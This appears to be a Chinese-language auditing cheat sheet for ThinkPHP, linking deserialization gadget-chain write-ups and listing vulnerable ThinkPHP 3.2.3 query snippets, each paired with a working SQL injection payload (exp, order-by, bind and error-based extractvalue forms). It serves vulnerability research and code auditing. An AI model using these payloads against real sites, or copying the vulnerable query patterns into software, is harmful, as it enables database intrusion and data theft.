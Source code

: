 [5.2.X反序列化利用链](https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5.2.X%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE.md)

[链子集合](https://github.com/ambionics/phpggc/tree/master/gadgetchains/ThinkPHP)

推荐阅读：

[挖掘暗藏ThinkPHP中的反序列利用链](https://blog.riskivy.com/%e6%8c%96%e6%8e%98%e6%9a%97%e8%97%8fthinkphp%e4%b8%ad%e7%9a%84%e5%8f%8d%e5%ba%8f%e5%88%97%e5%88%a9%e7%94%a8%e9%93%be/)

## thinkphp3.2.3

### 注入类

```php
# exp注入
$id = $_GET['id'];
$Admin = D("admin");
$data = $Admin->where(['Id' => $id])->limit('2')->select();

# payload：?id[0]=exp&id[1]==1 UNION ALL SELECT 1,2,3
# 两个等号，没错。具体分析看这里
# https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP3之SQLI审计分析.md
```

```php
# order by注入
$username=I("username");
$order=I("order");
$result= M('users')->where(array("username"=>$username))->order($order)->find();

# payload：username=admin&order[extractvalue(1,concat(0x7e,(select+database())))]
# 分析&实际案例：https://althims.com/2020/02/03/xyhcms-3-6/#xyhcms-v3-6-前台sql注入
```

下面这些摘自土司@[H0ward](https://www.t00ls.com/viewthread.php?tid=65613)

```php
# 框架级漏洞
$id=I('post.id');
$list = M('system_skin')->find($id);//select() delect()都会有问题
# payload:
id[where]=1’and
id[alias]=where 1 and
id[table]=users where 1 and

# save注入
$comdition["username"]=I("username");
$data["password"]=I("password");
$list = M('admin_user')->where($comdition)->save($data);
# payload:
username[0]=bind&username[1]=0+and(select+extractvalue(1,concat(0x7e,(select+database()))))&password=123   
```
